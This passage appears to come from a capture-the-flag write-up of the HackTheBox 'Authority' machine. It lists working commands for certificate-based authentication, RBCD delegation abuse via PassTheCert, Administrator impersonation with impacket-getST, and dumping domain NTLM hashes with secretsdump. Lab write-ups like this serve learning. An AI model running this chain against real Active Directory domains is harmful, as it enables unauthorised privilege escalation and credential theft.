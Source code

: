 ~~~bash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222

# Run these commands if you get a clock skew error. This sets your clock to match the machine. 
timedatectl set-ntp 0
sudo ntpdate 10.10.11.222
~~~

This is where what happened to me differed from what happened in the walkthrough. There was supposed to be an error that occured when authenticating to the administrator user. 

~~~
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
~~~

What this means is that the DC doesn't support Public Key Cryptography for initial authentication (PKINIT). PKINIT is a Kerberos mechanism where you can use certificates as a form of pre-authentication. [(source)](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html) Because this is disabled/unsupported in this box, we can't use certipy to authenticate to the administrator user with the .pfx file. However, I was able to authenticate and get the NT hash without having to work around this error. Because my way is boring, I'll show the way the walkthrough did it for education sake. 

What the walkthrough did was they extracted the .key and .crt files from the .pfx file that we created with the following commands:

~~~bash
# extracts the .key file
openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
# extracts the .crt file
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator.crt
~~~

It then used a python tool called PassTheCert by AlmondOffSec. What they do is they use the files we extracted to "authenticate" and use administrator privileges (most likely because that's the user we requested the certificate for). Then we modify the computer we created to have RBCD or delegation rights over the DC. Now, because the computer we own has RBCD (delegation) rights, we can use our "something$" computer to authenticate to a service on behalf of the administrator user. This is generally called impersonation. 

~~~bash
# This uses the administrator's privilege (presumably) to modify the "something$" computer to have delegation rights. 
python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'something$'

# this command impersonates the Administrator user to grab the TGT. This should output a .ccache file
impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator 'authority.htb/something$:wefwefwef'

# We export the KRB5CCNAME variable because that is used when authenticating over kerberos. 
# We're also dumping the NTLM hashes with secretsdump, which we can use to login as Administrator
export KRB5CCNAME=(path to .ccache file)
impacket-secretsdump -k -no-pass authority.htb/Administrator@authority.authority.htb -just-dc-ntlm
~~~
